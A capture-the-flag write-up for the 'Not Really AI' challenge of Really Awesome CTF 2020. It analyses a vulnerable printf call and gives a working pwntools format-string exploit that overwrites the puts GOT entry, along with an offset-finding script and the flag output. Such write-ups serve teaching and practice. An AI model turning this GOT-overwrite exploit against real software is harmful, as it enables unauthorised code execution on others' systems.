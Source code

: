 # Really Awesome CTF 2020

## Not Really AI

> 200
>
> Challenge instance ready at `88.198.219.20:17119`
>
> Connect at `nc pwn.hsctf.com 5002`.
>
> Exploit the service to get the flag.
>
> Author: Ironstone
>
> [`nra`](nra)

Tags: _pwn_ _x86_ _got_ _format-string_

## Summary

Format-string vulnerability -> control execution with a simple GOT exploit.


## Analysis

### Checksec

```
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
```

No mitigations in place.


### Decompile with Ghidra

Two functions of interest, `response` and `flaggy`:

```c
void response(void)

{
  char local_20c [516];
  
  puts("How are you finding RACTF?");
  fgets(local_20c,0x200,stdin);
  puts("I am glad you");
  printf(local_20c);
  puts("\nWe hope you keep going!");
  return;
}
```

With no mitigations in place, various `printf` format-string exploits are possible, the simplest is to replace the `puts` GOT entry with `flaggy`, then instead of `puts("\nWe hope you keep going!");`, you get:

```c
void flaggy(void)

{
  int iVar1;
  
  iVar1 = __x86.get_pc_thunk.ax();
  system((char *)(iVar1 + 0xdf9));
  return;
}
```

`flaggy` calls `system` with an parameter of `iVar1 + 0xdf9`.  To figure out what that actually is, take the address after `iVar1 = __x86.get_pc_thunk.ax();` and add `0xdf9` to it:

```
        0804924c e8 9a 00 00 00        CALL       __x86.get_pc_thunk.ax
        08049251 05 af 2d 00 00        ADD        EAX,0x2daf
```

`0x8049251` + `0xdf9` = `0x804a04a`.  Then look at that address in the disassembly:

```
        0804a04a 63 61 74        ds         "cat flag.txt"
                 20 66 6c 
                 61 67 2e 
```

So, `system("cat flag.txt")`.


## Exploit

```
#!/usr/bin/python3

from pwn import *

#p = process('./nra')
p = remote('88.198.219.20',61933)
binary = ELF('./nra')

p.recvuntil('How are you finding RACTF?')
p.sendline(fmtstr_payload(4,{binary.got['puts']:binary.symbols['flaggy']}))
p.recvline()
p.recvline()
p.recvline()
_ = p.recvline().decode().strip()
print(_)
```

Using the pwntools fmtstr functions, update the GOT `puts` entry with the address of `flaggy`.

The first parameter to `fmtstr_payload` is the offset; you can find this with GDB or with a simple script like this:

```
#!/usr/bin/python3

from pwn import *

def scanit(t):
	p = process('./nra')
	#p = remote('pwn.hsctf.com', 5004)
	p.recvuntil('How are you finding RACTF?')
	p.sendline(t)
	p.recvuntil('I am glad you\n')
	_ = p.recvline().strip()
	p.close()
	return _

for i in range(1,20):
	t = '%' + str(i).rjust(2,'0') + '$010p'
	_ = scanit(t)
	print(i,_)
	if _.find(b'0x') >= 0:
		s = bytes.fromhex(_[2:].decode())[::-1]
		if s == t[:4].encode():
			print('offset:',i)
			break

# ./offset.py | grep -v ]
1 b'0x00000200'
2 b'0xf7f5a580'
3 b'0x080491d1'
4 b'0x24343025'
offset: 4
```

> You could probably just combine the two scripts to fully automate this.

Exploit output:

```
# ./exploit.py
[+] Opening connection to 88.198.219.20 on port 61933: Done
[*] '/pwd/datajerk/ractf2020/nra/nra'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x8048000)
    RWX:      Has RWX segments
ractf{f0rmat_Str1nG_fuN}
```

